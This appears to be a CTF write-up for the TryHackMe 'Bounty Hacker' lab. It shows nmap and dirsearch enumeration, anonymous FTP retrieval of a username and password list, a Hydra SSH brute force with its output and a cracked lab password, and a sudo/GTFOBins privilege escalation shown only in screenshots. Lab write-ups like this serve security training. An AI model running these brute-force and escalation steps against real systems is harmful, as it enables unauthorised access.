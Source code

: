 # Bounty Hacker
## Machine Info
- A basic TryHackMe CTF challange that contains ftp, enumeration, brute force, privilege escalation.

## Used Tools
* Nmap
* Dirsearch
* Hydra


####  *Enumeration* 

Initially, start with nmap scan:
> nmap -sV -sC -oN ./bounty_nmap MACHINE_IP

```white
Nmap 7.92 scan initiated Sun Feb 27 14:10:01 2022 as: nmap -sV -sC -oN ./bounty_nmap.txt 10.10.176.234
Nmap scan report for 10.10.176.234
Host is up (0.075s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.37.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We have a ftp service running on port 21 and http service on port 80. Important point to see is that we can login as Anonymous to ftp. 

Login to ftp:
>ftp MACHINE_IP

![](https://i.imgur.com/YuV12d9.png)



Here, we see two text files that may contain useful information we can play with. Copy them to your local computer by ```get task.txt```  and ```get locks.txt```

Locks.txt looks like it has important things, we may use them as password. Also task.txt doesn't give much info but we may have a username named 'lin':

![](https://i.imgur.com/2YZWcrY.png)


Let's head to http://MACHINE_IP to see what much more info we may get. Meanwhile using dirsearch, try to enumerate subdirectories:

>dirsearch -l /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http:MACHINE_IP

```bash
  _|. _ _  _  _  _ _|_    v0.4.2                                                            
 (_||| _) (/_(_|| (_| )                                                                     
                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /usr/lib/python3/dist-packages/dirsearch/bounty_dirsearch.txt

Error Log: /root/.dirsearch/logs/errors-22-02-27_14-22-24.log

Target: http://10.10.176.234/

[14:22:24] Starting: 
[14:22:27] 403 -  278B  - /.htaccess.sample                                
[14:22:27] 403 -  278B  - /.htaccess.save
[14:22:27] 403 -  278B  - /.htaccessBAK                                    
[14:22:27] 403 -  278B  - /.htaccess_sc
[14:22:27] 403 -  278B  - /.htaccess_orig                                  
[14:22:27] 403 -  278B  - /.htm                                            
[14:22:27] 403 -  278B  - /.htaccessOLD2
[14:22:27] 403 -  278B  - /.htaccess.bak1
[14:22:27] 403 -  278B  - /.htaccessOLD
[14:22:27] 403 -  278B  - /.ht_wsr.txt
[14:22:27] 403 -  278B  - /.htaccess_extra
[14:22:27] 403 -  278B  - /.htaccess.orig
[14:22:27] 403 -  278B  - /.html
[14:22:27] 403 -  278B  - /.htpasswd_test
[14:22:27] 403 -  278B  - /.htpasswds                                      
[14:22:27] 403 -  278B  - /.httr-oauth                                     
[14:23:02] 301 -  315B  - /images  ->  http://10.10.176.234/images/         
[14:23:02] 200 -  938B  - /images/
[14:23:03] 200 -  969B  - /index.html                                       
[14:23:20] 403 -  278B  - /server-status                                    
[14:23:20] 403 -  278B  - /server-status/

Task Completed
```


In website, we see a conversation between Spike,Jet, Ed and Faye. Also they mention other names Edward and Ein.

![](https://i.imgur.com/p2XGHaD.png)

In subdirectory /images, we just have the image of the crew as we see on directly on site so it look like it won't be useful for now.



#### *Obtaining Foothold*

Now we have 7 potential usernames Lin, Spike, Jet, Ed, Faye, Edward, Ein. Since we thought that locks.txt may be a password list that can be handy, let's try to bruteforce by creating a text file named 'potential_usernames.txt" where the usernames listed in.
>hydra -L potential_usernames.txt -P locks.txt ssh://MACHINE_IP

```white
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-27 14:27:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 182 login tries (l:7/p:26), ~12 tries per task
[DATA] attacking ssh://10.10.176.234:22/
[22][ssh] host: 10.10.176.234   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-27 14:28:12
```


Aand here it is! We found lin's password! Let's login via ssh:

![](https://i.imgur.com/R9lXPCE.png)



We should find the flags now. By checking Desktop with a quick 'ls -la' we found the user.txt flag!

![](https://i.imgur.com/zuNPyYR.png)



#### *Privilege Escalation* 

In order to find root.txt (we may easily assume that it's in /root), we should escalate our privileges. My first attempt was a quick 'sudo -l' to find any commands we may run as root and it worked.

![](https://i.imgur.com/etsjXMO.png)


Let's head to GTFOBins and see how to get root shell.

![](https://i.imgur.com/GRFOSPT.png)

![](https://i.imgur.com/oDgdjzU.png)

As it seen, we easily escalated to the root shell, and got the flag!